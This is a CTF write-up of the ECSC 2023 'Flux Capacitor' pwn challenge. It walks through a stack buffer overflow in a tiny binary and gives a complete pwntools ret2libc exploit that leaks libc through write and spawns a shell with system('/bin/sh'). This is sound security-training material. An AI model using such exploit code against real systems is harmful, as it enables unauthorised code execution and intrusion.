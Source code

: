 ```yaml
---
id: 16
title: "ECSC 2023: Flux Capacitor"
subtitle: "ECSC 2023 Day 1: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c, pwn, ctf"
---
```


## Foreword

This challenge was honestly a mystery because it was released near the end of Day 1 yet it's a much easier pwn challenge than all the other challenges. It barely has any code and is just a straight forward buffer overflow ret2libc challenge.

# Flux Capacitor

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d1/flux_capacitor/flux_capacitor'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

It has Full RELRO and NX enabled, but no canary or PIE.

We open the binary up in IDA to see that it's as straight-forward as it gets.
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  setup(argc, argv, envp);
  write(1, "\nFlux capacitor: \n", 0x13uLL);
  write(1, " __         __\n", 0x10uLL);
  write(1, "(__)       (__)\n", 0x11uLL);
  write(1, " \\ \\       / /\n", 0x10uLL);
  write(1, "  \\ \\     / /\n", 0xFuLL);
  write(1, "   \\ \\   / /\n", 0xEuLL);
  write(1, "    \\ \\ / /\n", 0xDuLL);
  write(1, "     \\   /\n", 0xCuLL);
  write(1, "      \\ /\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      |_|\n", 0xBuLL);
  write(1, "      (_)\n", 0xBuLL);
  write(1, "\n\n[*] Year: [1955]", 0x13uLL);
  write(1, "\n[*] Plutonium ", 0x10uLL);
  write(1, "is not available ", 0x12uLL);
  write(1, "to everoyne.\n", 0xEuLL);
  write(1, "\n[Doc]  : We need ", 0x13uLL);
  write(1, "to find a way to", 0x11uLL);
  write(1, " fill the Flux ", 0x10uLL);
  write(1, "Capacitor with ", 0x10uLL);
  write(1, "energy. Any ideas", 0x12uLL);
  write(1, " Marty?\n[Marty]: ", 0x12uLL);
  read(0, buf, 0x100uLL);
  write(1, "\n[Doc]  : This ", 0x10uLL);
  write(1, "will not work..\n\n", 0x12uLL);
  return 0;
}
```

Yep, that's the whole binary. Honestly it felt like a mystery that they put this in as a challenge in a competition as big as ECSC 2023, but I'm not complaining.

We can see that `char buf[32]` is declared with size 32 but `read(0, buf, 0x100uLL);` reads `0x100` bytes into `buf`. Textbook buffer overflow.

Since this challenge is Full RELRO and NX enabled, we cannot directly execute shellcode nor overwrite GOT, hence we will do ret2libc.

Leak `write` address and return to main, calculate libc base, then perform ROP chain to pop shell.
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("../sols/ezpwn/flux_capacitor_patched", checksec=False)
# context.log_level = 'debug'
libc = ELF("./libc.so.6")

# Run binary 1st time
p = exploit_source("../sols/ezpwn/flux_capacitor_patched", "localhost")

rop = ROP(elf)

# find and pop write, then go back to main
rop.write(1, elf.got['write'])
rop.main()

payload = flat({0x20: p64(0) + rop.chain()})

p.sendlineafter(b"[Marty]:", payload)

# grab output, calculate libc base
p.recvuntil(b"will not work..\n\n\0")

leak = u64(p.recvn(8))
offset = libc.sym.write
libc.address = leak  - offset
info(f"{hex(leak) =}")
info(f"{hex(offset) =}")
success(f"{hex(libc.address) =}")

pause()

# find /bin/sh and call system
rop1 = ROP(libc)

rop1.system(next(libc.search(b"/bin/sh")))
p.sendlineafter(":", flat({ 0x20: p64(0) + rop1.chain() }))

p.interactive()
```

`cat flag.txt` for the flag.